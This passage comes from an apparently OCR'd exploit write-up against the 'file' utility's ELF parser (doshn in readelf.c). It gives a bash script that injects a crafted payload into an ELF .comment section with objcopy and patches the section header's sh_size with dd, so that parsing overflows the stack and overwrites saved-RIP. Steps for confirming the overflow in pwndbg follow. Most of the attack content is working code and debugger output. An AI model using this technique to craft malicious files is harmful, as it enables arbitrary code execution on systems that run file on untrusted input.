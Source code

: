 ```bash
# 2) Add payload.bin as .comment (with ALLOC so readelf will load it)
objcopy   --add-section .comment="$PAYLOAD"   --set-section-flags .comment=contents,alloc   "$FILE" || { echo "Injection failed"; exit 1; }

echo "Before patch:"
readelf -S "$FILE" | grep '\.comment'

# 3) Compute where to patch sh_size for .comment to 0x7f
E_SHOFF=$((E_SHOFF_HEX))
BYTES_PER_SHDR=64
SH_SIZE_OFFSET=32  # within each Elf64_Shdr

SH_SIZE_FIELD_OFFSET=$(( E_SHOFF + COMMENT_SEC_IDX*BYTES_PER_SHDR + SH_SIZE_OFFSET ))

printf '\x7f\x00\x00\x00\x00\x00\x00\x00' |   dd of="$FILE" bs=1 seek="$SH_SIZE_FIELD_OFFSET" count=8 conv=notrunc status=none

echo "After patch:"
readelf -S "$FILE" | grep '\.comment'
```

- **Step 1**: `--remove-section .comment` deletes the existing `.comment`.  
- **Step 2**: `--add-section .comment=payload.bin` creates a new `.comment` containing our 387 bytes. We set `contents,alloc` so that section is loaded.  
- **Step 3**: We patch the `sh_size` field (8 bytes at offset `E_SHOFF + 64*COMMENT_SEC_IDX + 32`) to `0x7f` so that `readelf` will only read the first 127 bytes of `.comment` (enough to trigger the overflow).  

After running this script, `exploit.elf` has a `.comment` of size 0x7f whose contents begin with our 387-byte payload. When `doshn` reads up to 127 bytes of that section, it will see both `(` characters, overflow into saved-RIP, and then return into our chosen address.

---

## 5. Verifying the Exploit under pwndbg

1. **Launch pwndbg on the patched binary**:  
   ```bash
   pwndbg --args ./file -m magic.mgc exploit.elf
   ```
   Inside GDB:  
   ```gdb
   pwndbg> b readelf.c:1510    # break right before “comment[idx-version_start] = '\0'”
   pwndbg> run
   ```
   You should see:
   ```gdb
   Breakpoint 1, doshn (…) at readelf.c:1510
   ```
---
2. **Check local variables**:  
   ```gdb
   pwndbg> info locals
   c             = 41          # ')'
   idx           = 386
   version_start = 130
   comment       = "B"*128
   … 
   ```
   - `version_start = 130` confirms the **second** `(` arrived at `idx = 129`.  
   - `idx = 386` means we just processed the final `')'`.
